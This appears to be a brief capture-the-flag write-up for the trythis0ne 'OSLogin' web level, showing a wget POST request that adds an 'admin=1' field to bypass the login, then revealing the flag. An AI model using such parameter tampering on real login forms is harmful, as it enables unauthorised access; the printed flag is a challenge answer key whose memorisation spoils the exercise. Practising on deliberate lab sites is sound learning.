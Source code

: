```yaml
---
layout: default
title: OSLogin
---
```


# trythis0ne OSLogin Solution

in this level i need in the HTTP post request to send also admin=1, so, let's use wget in wsl

```
 wget --post-data="user=admin&pass=bla&admin=1&submit=send" http://trythis0ne.com/levels/levels/web-challanges/OSLogin/index.php -O OSLogin.php 
```
and then `cat OSLogin.php`, the password is in the file

**Flag:** ***`WeLoveCola`***
